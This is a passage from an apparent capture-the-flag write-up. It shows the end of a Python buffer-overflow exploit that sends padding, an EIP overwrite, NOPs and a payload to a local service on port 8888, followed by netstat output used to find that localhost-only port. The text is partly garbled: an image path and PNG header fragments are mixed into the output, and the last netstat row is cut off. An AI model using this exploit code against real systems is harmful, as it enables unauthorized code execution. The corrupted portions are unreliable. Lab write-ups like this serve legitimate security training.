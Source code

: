```
overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

Running netstat we also notice that port 8888 is open on 127.0.0.1 only.

It is definetely worth checking what is running on that port.

```
C:\xampp\htdocs\gym\upload> netstat -nao
�PNG
▒

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       932
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5856
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       8992
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       6740
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       524
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1052
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1616
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2260
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       668
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       688
  TCP    10.10.10.198:139       0.0.0.0:0              LISTENING       4
  TCP    10.10.10.198:8080      10.10.14.45:52196      ESTABLISHED     6740
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       7208
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       2432
  TCP    [::]:135               [::]:0                 LISTENING       932
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:7680              [::]:0                 LISTENING       8992
  TCP    [::]:8080              [::]:0                 LISTENING       6740
  TCP    [::]:49664             [::]:0                 LISTENING       524
  TCP    [::]:49665             [::]:0                 LISTENING       1052
  TCP    [::]:49666             [::]:0                 LISTENING       1616
  TCP    [::]:49667             [::]:0                 LISTENING       2260
  TCP    [::]:49668             [::]:0                 LISTENING       668
  TCP    [::]:49669             [::]:0                 \
```

We are definetly interested in checking out these ports running on localhost.
